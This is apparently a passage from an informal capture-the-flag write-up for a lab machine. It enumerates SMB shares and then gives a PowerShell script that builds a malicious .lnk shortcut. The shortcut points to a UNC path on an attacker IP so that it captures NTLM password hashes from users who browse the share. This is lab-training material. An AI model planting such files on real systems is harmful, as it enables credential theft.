 tho nothing was in these folders. tho we have some usernames




apps:
```
smbclient //baby2.vl/apps                                                          
Password for [WORKGROUP\suljov]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Sep  7 21:12:59 2023
  ..                                  D        0  Tue Aug 22 22:10:21 2023
  dev                                 D        0  Thu Sep  7 21:13:50 2023

		6126847 blocks of size 4096. 1958200 blocks available
smb: \> cd dev\
smb: \dev\> ls
  .                                   D        0  Thu Sep  7 21:13:50 2023
  ..                                  D        0  Thu Sep  7 21:12:59 2023
  CHANGELOG                           A      108  Thu Sep  7 21:16:15 2023
  login.vbs.lnk                       A     1800  Thu Sep  7 21:13:23 2023

		6126847 blocks of size 4096. 1958200 blocks available
smb: \dev\> 

```


```
[0.2]

- Added automated drive mapping

[0.1]

- Rolled out initial version of the domain logon script
```


tho since there is also a .lnk file it might be that we are going to `phish`. using a malicius .lnk file we might get hash or two


creating malicius .lnk file



https://infinitelogins.com/2020/12/17/capturing-password-hashes-via-malicious-lnk-files/


#### OBS the powershell script must be run in powershell in order to create the file (the file will be created in the C:\ folder)


in our Windows vm to create the .lnk file

malicius.lnk
```
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\Malicious.lnk")
$lnk.TargetPath = "\\10.8.1.92\@threat.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the dir this file lives in will perform an authentication request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

